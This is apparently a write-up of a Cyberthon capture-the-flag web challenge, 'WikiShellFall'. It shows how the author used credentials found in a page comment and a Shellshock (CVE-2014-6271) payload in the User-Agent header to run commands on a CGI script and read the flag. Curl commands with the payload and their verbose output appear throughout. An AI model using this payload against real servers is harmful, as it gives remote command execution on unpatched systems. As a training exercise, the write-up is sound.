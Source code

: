 # WikiShellFall

### Web Services // 1500 Points // 0 Solves

*This challenge was solved after Cyberthon ended.*

*This writeup is incomplete. More information is needed and may be added.*

## Solution

Upon looking at this challenge, my first thought was that the solution would be a known exploit, because the page was using a framework. Hint 3 ("What is significant about bash, and the date?") was what told me that it was [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This was confirmed with a CSIT engineer (I was unsure since the date was _before_ the Shellshock vulnerability was discovered. I guess the narrative is that the server wasn't updated since then, leaving it exposed since Shellshock was undiscovered for three years).

Firstly, to get the easy stuff out of the way:

* Username: `Baba Ali` (from the frontpage: "This is the personal wiki of Baba Ali")
* Password: `Ek6OaGHk8ZRP3.wI` (comment in the source code of the front page)

### Bewildered Bash

[This page](http://garage4hackers.com/showthread.php?t=6902) and [this page](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/) were almost basic Shellshock guides. If a request with any header with the contents of the Shellshock payload is sent, an arbitrary command can be run:

```
curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
```

* `--user 'Baba Ali:Ek6OaGHk8ZRP3.wI'`: sets the authentication, since auth is handled by Nginx (i.e. CGI won't be run if Nginx doesn't allow it to)
* `-A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")'`: sets the user agent (an HTTP header) to the Shellshock payload
	* The payload returns (in a header) the output of the command in the brackets, formatted properly
	* `/bin/bash -c` executes the following command. _For some reason,_ a full path must be given to the first command (`/bin/bash`); just using `$(cat flag)` results in `An error occurred while parsing CGI reply` being replied. `/bin/sh -c "cat ..."` or `/bin/cat` will work as well.
* `-v`: verbose. Makes `curl` print the headers

The payload will be printed in the headers for an unknown reason. I believe that this is because there's a separator between the headers and the body being sent by CGI, but I'm not too sure. This writeup may be updated in the future with additional information. What this _means_, however, is that we must prepend "something: " in front of the output to make this a valid HTTP response header, so that Nginx doesn't freak out (you may get a `An error occurred while reading CGI reply (no response received)` error).

_input from [@JakeIsMeh](https://github.com/JakeIsMeh):_
This is only possible because the organizers moved their backend back to Bash. From the docs page:
> 2019-08-18: Version 1.10 (latest)  
> Changed the codebase from bash to POSIX sh.  No longer requires bash.
In the modified `minisleep.cgi`, however, it still uses Bash.

The output of an `ls` was odd, because each separator corresponded to a new HTTP header, leading to this weird result:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "res:" $(/bin/bash -c "ls")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/min
isleep.cgi

< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:33:50 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive

# Important bits below
< res: add-attributes.xsl
< buildpage.sh:
< flag:
< minisleep.cgi:
< rebuild_all_pages.sh:
...
```

After doing this, we can `cat` the flag:

```
$ curl --user 'Baba Ali:Ek6OaGHk8ZRP3.wI' -A '() { :;}; echo "Flag:" $(/bin/bash -c "cat flag")' -v http://p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345/cgi/minisleep.cgi
*   Trying 128.199.134.10...
* TCP_NODELAY set
* Connected to p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg (128.199.134.10) port 11345 (#0)
* Server auth using Basic with user 'Baba Ali'
> GET /cgi/minisleep.cgi HTTP/1.1
> Host: p7ju6oidw6ayykt9zeglwyxired60yct.ctf.sg:11345
> Authorization: Basic QmFiYSBBbGk6RWs2T2FHSGs4WlJQMy53SQ==
> User-Agent: () { :;}; echo "Flag:" $(/bin/bash -c "cat flag")
> Accept: */*
>
< HTTP/1.1 400
< Server: nginx
< Date: Sun, 03 May 2020 14:40:49 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
< Flag: Cyberthon{update-y0ur-systemz-8W.wqDei}
...
```

## Flag

```
Cyberthon{update-y0ur-systemz-8W.wqDei}
```

## Takeaways

Oh are there many.

1. If everyone is exploiting Shellshock through the User Agent, don't look into how the CGI script works
2. Point 1, except when it's obvious that there aren't any environment variables to exploit anyways, obviously
3. Don't give up if something doesn't work on the first try (we did 1, because we didn't know we had to format the response as a header in the beginning)
4. High point challenges can actually have simple solutions as well (we did not expect the password to be in a comment for a looong while)
5. ~~Firefox is surprisingly good at things it's not meant for~~
